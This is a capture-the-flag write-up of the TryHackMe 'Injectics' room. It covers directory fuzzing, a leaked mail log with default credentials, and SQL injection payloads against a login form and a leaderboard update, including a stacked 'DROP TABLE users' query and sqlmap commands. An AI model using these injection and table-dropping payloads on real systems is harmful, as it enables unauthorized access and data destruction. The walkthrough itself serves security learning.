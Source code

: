 # Injectics

{% embed url="https://tryhackme.com/room/injectics" %}

### Initial enumeration

#### Basic fuzzing:

{% code overflow="wrap" %}
```bash
$ gobuster dir -u http://<target> -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
{% endcode %}

...

Interesting files: `composer.lock`, **`composer.json`**

From `composer.lock`, I found out that the application uses Twig.

#### Source code review

... found file `mail.log`&#x20;

```
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm

```

From this note, we can understand that ...

### Exploring the application

#### (1) Normal user login

```http
POST /functions.php HTTP/1.1

Host: ...
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 57
Origin: http://...
Connection: keep-alive
Referer: http://10.10.244.88/login.php?mail=t&pass=t
Cookie: PHPSESSID=oqttvasr6crs86ila4mi3kbjf6
Priority: u=0

username=1&password=1&function=login
```

**Possible SQL query:**

```sql
SELECT * FROM table WHERE username = x AND password = x 
```

Injection to `username` POST field:

```sql
'||1=1;-- //there is an explicit space right after the comment (--)
```



* This works with space in between the items too:&#x20;

```
' || 1=1;-- 
```

`' || 1=1; --`&#x20;

```sql
SELECT * FROM table WHERE username = ''||1=1'-- AND password = '1' 
```

**Further learning**

* To explore what other injection methods can be used, I utilized Sqlmap:&#x20;

> `login.txt` contains the HTTP POST request from above

```sh
$ sqlmap -r login.txt --risk=3 --level=5
' RLIKE SLEEP(3) -- n 
```

#### (2) Edit leaderboard

After the successful injection on the login form, we are able to view the dashboard page, which presents us with a method to edit the leader board table:

```http
POST /edit_leaderboard.php HTTP/1.1
Host: 10.10.244.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://10.10.175.148
Connection: keep-alive
Referer: http://10.10.175.148/edit_leaderboard.php?rank=1&country=USA
Cookie: PHPSESSID=4rtpdvbsmkvqquno4am9ij5h6q
Upgrade-Insecure-Requests: 1
Priority: u=0, i

rank=1&country=1&gold=1&silver=1&bronze=1
```

**Possible SQL query:**

```sql
UPDATE table SET gold = x, silver = x, bronze = x WHERE rank = x;
```

**ATTEMPT 1**

Injection to the `gold` field:

```sql
22, silver = 22, bronze = 22;-- // explicit space after comment
```

```sql
UPDATE table SET gold = 22, silver = 22, bronze = 22;--, silver = x, bronze = x WHERE id = 'x';; 
```

* This action will update the `gold`, `silver` and `bronze` field to **22** for every country. With that, we know that the SQL injection worked!

**ATTEMPT 2**

```sql
1 WHERE 1=1; DROP TABLE users;-- 
```

{% code overflow="wrap" %}
```sql
UPDATE table SET gold = 1 WHERE 1=1; DROP TABLE users;-- , bronze = x WHERE id = x;, silver = x, bronze = x WHERE id = x;

```
{% endcode %}

**Further learning**

Sqlmap:&#x20;

```
$ sqlmap -r leaderboard.txt -p gold,silver,bronze --dbms=mysql 
```

